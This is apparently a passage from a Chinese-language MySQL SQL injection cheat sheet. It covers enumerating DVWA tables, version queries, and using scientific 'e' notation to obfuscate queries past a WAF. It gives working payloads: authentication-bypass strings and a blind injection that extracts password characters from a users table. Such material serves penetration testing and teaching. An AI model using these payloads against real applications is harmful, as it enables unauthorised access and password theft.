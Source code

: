 ```sql

mysql> show tables in dvwa;
+----------------+
| Tables_in_dvwa |
+----------------+
| guestbook      |
| users          |
+----------------+
```

### 版本的替代方案

```sql
mysql> select @@innodb_version;
+------------------+
| @@innodb_version |
+------------------+
| 5.6.31           |
+------------------+

mysql> select @@version;
+-------------------------+
| @@version               |
+-------------------------+
| 5.6.31-0ubuntu0.15.10.1 |
+-------------------------+

mysql> mysql> select version();
+-------------------------+
| version()               |
+-------------------------+
| 5.6.31-0ubuntu0.15.10.1 |
+-------------------------+
```

### 科学计数法

在 MySQL 中，e 表示法用于以科学计数法表示数字。这是一种简洁的格式来表示非常大或非常小的数字。e 表示法由一个数字后跟字母 e 和一个指数组成。
格式为：`基数 'e' 指数`。

例如：

* `1e3` 代表 `1 x 10^3` 即 `1000`。
* `1.5e3` 代表 `1.5 x 10^3` 即 `1500`。
* `2e-3` 代表 `2 x 10^-3` 即 `0.002`。

以下查询是等效的：

* `SELECT table_name FROM information_schema 1.e.tables` 
* `SELECT table_name FROM information_schema .tables` 

同样，常见的绕过身份验证的有效载荷 `' or ''='` 等效于 `' or 1.e('')='` 以及 `1' or 1.e(1) or '1'='1`。
这种技术可以用来混淆查询以绕过 WAF，例如：`1.e(ascii 1.e(substring(1.e(select password from users limit 1 1.e,1 1.e) 1.e,1 1.e,1 1.e)1.e)1.e) = 70 or'1'='2` 
